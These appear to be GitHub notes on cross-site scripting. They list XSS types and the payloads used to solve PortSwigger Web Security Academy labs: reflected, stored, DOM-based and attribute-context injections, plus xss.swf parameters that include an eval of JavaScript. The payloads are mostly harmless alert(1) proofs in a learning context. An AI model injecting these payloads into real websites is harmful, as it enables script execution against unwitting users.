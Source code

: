 # XSS is the most known client side vulnerbility
## Types OF XSS
- Reflected XSS
- DOM Based XSS
- Stored XSS 
- Blind XSS

## There are client side frameworks can trigger xss in different methods
- [XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

## Reflected XSS into HTML context with nothing encoded
```bash
https://0a88007603bad0a4808b0d0000230035.web-security-academy.net/?search=%3Cimg%20src=c%20onerror=%22alert(1)%22%20/.
```

### Stored XSS into HTML context with nothing encoded
```bash
in comment
<svg><animate onbegin=alert(1) attributeName=x dur=1s>
```

### DOM XSS in document.write sink using source
```bash
Website writes the userinput inside an image tag so
'ls" onload="alert(1)"'
this is enough
```

### DOM XSS in innerHTML sink using source location.search
```bash
input was reflecting inside a span tag
lola"><img%20src=x%20onerror="alert(1)"/>
```

### DOM XSS in jQuery anchor href attribute sink using location.search source
```bash
There was a controlable url parameter return path when i click back button 
it redirected me to that path
?redirect=/shop
i changed it to ?redirect=javascript:alert(1);
and back button <a href="javascript:alert(1)">
```

### Reflected XSS into attribute with angle brackets HTML-encoded
```bash
Reflected Inside Input Value Tag
"onmouseover="alert(1)
Solved
```

### XSS via swf file upload
```bash
location to url: xss.swf?a=location&c=http://www.google.com/
open url to new window: xss.swf?a=open&c=http://www.google.com/
http request to url: xss.swf?a=get&c=http://www.google.com/
eval js codz: xss.swf?a=eval&c=alert(document.domain)
```
